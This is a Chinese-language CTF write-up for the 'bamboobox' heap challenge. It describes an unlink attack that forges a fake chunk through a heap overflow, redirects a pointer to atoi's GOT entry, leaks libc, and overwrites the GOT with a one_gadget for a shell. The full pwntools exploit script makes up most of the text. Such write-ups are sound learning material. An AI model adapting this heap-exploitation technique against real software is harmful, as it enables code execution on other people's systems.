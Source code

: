 ```C++
```  
### 利用思路  
我们在chunk1中构造一个fake_chunk，通过change功能堆溢出修改chunk2的prev_size和size，最重要的是修改掉prev_in_use位，让程序认为chunk1被free了，再free掉chunk2就可以触发unlink，并且通过构造fake_chunk的fd和bk指针绕过unlink检查，使得ptr = ptr - 0x18，输入"a"*0x18 + atoi_got，那么chunk1的指针会指向atoi_got，调用show函数的时候会泄露atoi的真实地址，然后构造出onegadget，将got改写为onegadget就可以getshell  
### exp  
```Python  
#!/usr/bin/python2.7
#coding=utf-8
from pwn import*
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
context.arch = 'amd64'
#p=remote("node3.buuoj.cn",29168)
p = process("./bamboobox")
elf = ELF("./bamboobox")
libc = elf.libc
def add(size,content):
    p.recvuntil("choice:")
    p.sendline("2")
    p.recvuntil("name:")
    p.send(str(size))
    p.recvuntil("item:")
    p.send(content)
def edit(idx,size,content):
    p.recvuntil("choice:")
    p.sendline("3")
    p.recvuntil("item:")
    p.send(str(idx))
    p.recvuntil("name:")
    p.send(str(size))
    p.recvuntil("item:")
    p.send(content)
def show():
    p.recvuntil("choice:")
    p.sendline("1")
def free(idx):
    p.recvuntil("choice:")
    p.sendline("4")
    p.recvuntil("item:")
    p.send(str(idx))

#gdb.attach(p,"b *0x400ED2")
add(0x80,"aaaaaaaa")  # chunk1
add(0x80,"bbbbbbbb")  # chunk2
payload = p64(0) + p64(0x81) # fake_chunk's prev_size and size
payload += p64(0x6020c8-0x18) + p64(0x6020c8-0x10) # fake_chunk's fd and bk
payload += "a"*0x60  # 填充完剩下的空间
payload += p64(0x80) + p64(0x90)  # overwrite chunk2

edit(0,len(payload),payload)
free(1)

payload = "a"*0x18 + p64(elf.got['atoi'])
edit(0,len(payload),payload)
show() # leak atoi_addr

atoi_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success("atoi_addr==>" + hex(atoi_addr))
libc_base = atoi_addr - libc.sym['atoi']
onegadget = libc_base + 0xf02a4
edit(0,0x10,p64(onegadget))
```